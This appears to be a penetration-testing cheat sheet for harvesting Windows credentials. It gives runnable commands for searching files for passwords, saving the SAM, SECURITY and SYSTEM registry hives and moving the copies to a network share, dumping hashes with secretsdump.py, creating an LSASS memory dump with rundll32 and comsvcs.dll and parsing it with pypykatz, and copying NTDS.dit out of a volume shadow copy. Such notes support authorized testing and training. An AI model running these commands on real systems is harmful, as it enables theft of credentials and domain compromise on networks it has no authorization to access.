 # Password Hunting

## Search for the string "Password" in many different file type

`findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`

Search for the string cred :

`findstr /s /i cred n:*.*`

`Get-ChildItem -Recurse -Path N:\ -Include`` `_`cred`_` ``-File`

## Dump SAM (%SystemRoot%/system32/config/SAM)

Uses reg.exe in Windows to save a copy of a registry hive at a specified location on the file system. It can be used to make copies of any registry hive (i.e., hklm\sam, hklm\security, hklm\system).

`reg.exe save hklm\sam C:\sam.save`

Uses move in Windows to transfer a file to a specified file share over the network.

`move sam.save \\<IP>\\NameofFileShare`

Finally, we can use secretsdump.py to dump password hashes from  the SAM database :&#x20;

`python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL`

## Dump LSASS

### RunDLL32

`Get-Process lsass`

Uses rundll32 in Windows to create a LSASS memory dump file. This file can then be transferred to an attack box to extract credentials :&#x20;

`rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`

### Pypykatz

Uses Pypykatz to parse and attempt to extract credentials & password hashes from an LSASS process memory dump file.

`pypykatz lsa minidump /path/to/lsassdumpfile`

## Dump NTDS.DIT (AD Database - %SystemRoot%/system32/config/SAM)

| Command                                                                                                  | Description                                                                                                                                 |
| -------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- |
| `vssadmin CREATE SHADOW /For=C:`                                                                         | Uses Windows command line based tool vssadmin to create a volume shadow copy for `C:` . This can be used to make a copy of NTDS.dit safely. |
| `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit` | Uses Windows command line based tool copy to create a copy of NTDS.dit for a volume shadow copy of `C:` .                                   |

